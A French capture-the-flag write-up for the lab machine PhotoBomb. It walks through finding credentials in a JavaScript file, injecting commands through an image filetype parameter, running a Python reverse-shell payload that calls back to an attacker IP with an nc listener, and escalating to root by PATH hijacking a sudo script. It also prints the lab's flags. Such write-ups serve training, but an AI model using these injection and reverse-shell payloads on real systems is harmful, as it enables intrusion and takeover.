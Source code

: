 # PhotoBomb
## Description

>Sur cette machine, on a un server web où il y a un fichier JS ou nous trouvons les identifiants nous permettans d'accéder à un accès protégé.
Après nous abuserons le filetype parameter afin d'obtenir un reverse shell en tant que photobomb, pour la PE on utilisera une attaque path traverse afin d'obtenir les accès root.

## Reconnaissance (Nmap)

![](image/Nmap.jpg)

On a donc deux port ouverts:

1. 22 : ssh
2. 80 : http

Le port http nous redirige vers http://photobomb.htb/

Il faut donc l'ajouter au fichier

>/etc/hosts

## HTTP

On a accès à une simple page HTML avec un lien qui nous dirige vers /printer malheureusement un mot de passe que nous n'avons pas nous est demandé.

![](image/photobomb.jpg)

Après cette étape on remarque dans le source code du site un fichier javascript appelé 'photobomb.js'

![](image/photobomb.js.jpg)

A l'intérieur de ce fichier on obtient les identifiants nécessaire pour se connecter.

![](image/photobombInside.js.jpg)

>username = pH0t0
password = b0Mb!

On réussit à se connecter


![](image/Download%20Photo2Print.jpg)

On capture la requete avec burp et on essaie quelques injections dans les paramètres de la requete.

Avant tout il est nécessaire de démarrer son 'web server python'

>python3 -m http.server 80

## Command Injection

>photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=jpg;curl+http%3a//10.10.14.49%3a80&dimensions=3000x2000

![](image/signal.jpg)

Touché, on peut donc avoir un reverse shell grâce à ça.

## RCE

Avant toute chose il est nécessaire de démarrer notre listener 

> nc -lvnp 443

Ensuite on injecte notre payload python

>photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetwhoype=jpg;python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.49%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)'&dimensions=3000x2000

![](image/BurpRevShell.jpg)

Bingo on a notre shell, nous somme identifié en tant que "wizard"

![](image/shell.jpg)

On obtient le fichier "user.txt"

![](image/user.jpg)

>user flag : a96f43b80ed9ad23aadd390256bf29d8

## Privilege Escalation

![](image/sudo_l.jpg)


Le contenue du script est plutôt simple, il faut prendre le fichier log et décplacer sont contenu dans le fichier "photobomb.log.old" puis utiliser truncate pour clear "photobomb.log"

On remarque que "clearly" n'utilise pas d'aabsolute path comme "cd", on va donc pouvoir utiliser ça à notre avantage et "traverser le path" du binaire.

![](image/cleanup.sh.jpg)

Ensuite il faut ajouter '/bin/bash' dans le fichier cd et lui donner les permissions "rwx"

On a juste a run ce fichier avec les permissions sudo et set le PATH au dossier /temp

![](image/addToPath.jpg)

![](image/Root%2Bflag.jpg)

>root flag : 66dc7af59106bd5a2466c16c59ce6677